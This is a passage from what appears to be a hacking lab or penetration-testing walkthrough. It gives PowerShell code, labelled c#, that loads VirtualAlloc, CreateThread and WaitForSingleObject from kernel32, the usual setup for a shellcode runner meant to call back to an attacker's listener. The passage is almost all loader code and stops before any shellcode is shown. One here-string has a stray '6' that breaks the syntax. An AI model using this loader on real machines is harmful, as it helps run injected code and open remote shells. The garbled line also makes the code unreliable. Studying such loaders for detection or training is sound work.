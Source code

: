 ![](../images/Pasted%20image%2020241208145857.png)


Now, let's paste this code into windows to receive the connection once we've set up the listener:

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"6
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   


```